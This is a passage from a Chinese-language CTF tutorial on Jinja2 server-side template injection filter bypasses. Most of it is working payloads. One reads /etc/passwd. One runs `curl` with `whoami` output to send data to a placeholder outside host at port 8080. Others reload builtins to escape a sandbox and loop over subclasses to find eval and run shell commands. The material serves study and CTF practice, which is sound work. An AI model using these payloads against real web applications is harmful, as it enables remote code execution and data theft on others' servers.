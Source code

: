 过滤双下划线__
{{
''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read()
}}&class=__class__&mro=__mro__&subclasses=__subclasses__

过滤{{

{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://xx.xxx.xx.xx:8080/?i=`whoami`').read()=='p' %}1{% endif %}

reload方法
CTF题中沙盒环境可能会阉割一些模块，其中内建函数中多半会被删除。如果reload还可以用则可以重载

del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']
del __builtins__.__dict__['execfile']


reload(__builtins__)

__getattribute__方法
这个方法之前介绍过了，获取属性。

[].__class__.__base__.__subclasses__()[60].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__.values()[12]
# 等价于
[].__class__.__base__.__subclasses__()[60].__init__.func_globals['linecache'].__dict__.values()[12]

更多请参考：传送门1(https://0day.work/jinja2-template-injection-filter-bypasses/)

p师傅也有总结SSTI Bypass(https://p0sec.net/index.php/archives/120/)

 0x07 SSTI控制语句
之前我们测试一些可用payload都是直接在python解释器里测试。如果遇上做题的时候，沙盒溢出能够直接测试都还好，如果遇到SSTI，我们要知道一个python-web框架中哪些payload可用，那一个一个发请求手动测试就太慢，这里就需要用模板的控制语句来写代码操作。

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

根据前面提到的发掘步骤，可以自行更改代码直接对题目环境测试。

![](https://mmbiz.qpic.cn/mmbiz_png/1N39PtINn8vv7KaA050aUefyTRxicXz0yN08Sib5IaPrRuHiaVbWHc7aTUibW4QYVDicv8Y0sRmLZUuib0ia7qn6nPZqw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

请参考jinja2控制语句(https://blog.csdn.net/u011377996/article/details/86776181)

0x08 番外操作
不利用__globals__
